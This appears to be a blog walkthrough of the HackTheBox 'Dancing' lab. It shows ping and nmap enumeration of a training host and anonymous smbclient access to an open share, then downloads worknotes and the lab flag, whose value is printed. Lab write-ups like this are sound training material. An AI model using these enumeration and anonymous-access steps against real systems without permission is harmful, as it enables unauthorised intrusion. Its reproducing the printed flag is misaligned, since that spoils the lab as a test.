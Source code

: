 ```yaml
---
title: "HackTheBox - Dancing"
date: 2023-12-25 05:06:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, smb, databases]
image:
    path: /assets/img/htb/Dancing.png
    alt: Dancing - HackTheBox
---
```


[**Dancing**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Fawn we will learn about **SMB (Server Message Block)**.

## Introduction

- Connect **Dancing** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with ping Target IP.

```bash
❯ ping 10.129.236.96

PING 10.129.236.96 (10.129.236.96) 56(84) bytes of data.
64 bytes from 10.129.236.96: icmp_seq=1 ttl=127 time=263 ms
64 bytes from 10.129.236.96: icmp_seq=2 ttl=127 time=286 ms
64 bytes from 10.129.236.96: icmp_seq=3 ttl=127 time=310 ms
64 bytes from 10.129.236.96: icmp_seq=4 ttl=127 time=231 ms

--- 10.129.236.96 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3002ms
rtt min/avg/max/mdev = 231.476/272.733/309.960/28.947 ms
```

### Nmap

To be able to see all open ports, we can use `Nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port. 

```bash
❯ nmap -sCV 10.129.236.96

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-25 05:12 WIB
Nmap scan report for JSN.JaringanKU (10.129.236.96)
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-12-25T02:14:25
|_  start_date: N/A
|_clock-skew: 4h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.36 seconds
```

## Foothold

We can see, there is port 445/tcp which is the port for **SMB/SAMBA** services.

### SMB/SAMBA

Type `smbclient`, and add `-L` to get a list of shares available from the host.

```bash
❯ smbclient -L 10.129.236.96

Password for [WORKGROUP\huda]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      

SMB1 disabled -- no workgroup available
```

Look at the end of the sharename, if there is a $ sign then we need a password to enter it. If there is no $, we can log in using `-N` which is used to log in without a password.

```bash
❯ smbclient -N //10.129.236.96/WorkShares

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 15:22:01 2021
  ..                                  D        0  Mon Mar 29 15:22:01 2021
  Amy.J                               D        0  Mon Mar 29 16:08:24 2021
  James.P                             D        0  Thu Jun  3 15:38:03 2021

		5114111 blocks of size 4096. 1748932 blocks available
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 16:08:24 2021
  ..                                  D        0  Mon Mar 29 16:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 18:00:37 2021

		5114111 blocks of size 4096. 1748932 blocks available
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 15:38:03 2021
  ..                                  D        0  Thu Jun  3 15:38:03 2021
  flag.txt                            A       32  Mon Mar 29 16:26:57 2021

		5114111 blocks of size 4096. 1748900 blocks available
smb: \James.P\> echo flag.txt
echo <num> <data>
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0,0 KiloBytes/sec) (average 0,1 KiloBytes/sec)
```

After downloading everything, exit SMB and open it in your working directory.

```bash
❯ ls
 flag.txt
 worknotes.txt

❯ cat worknotes.txt
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing

❯ cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```
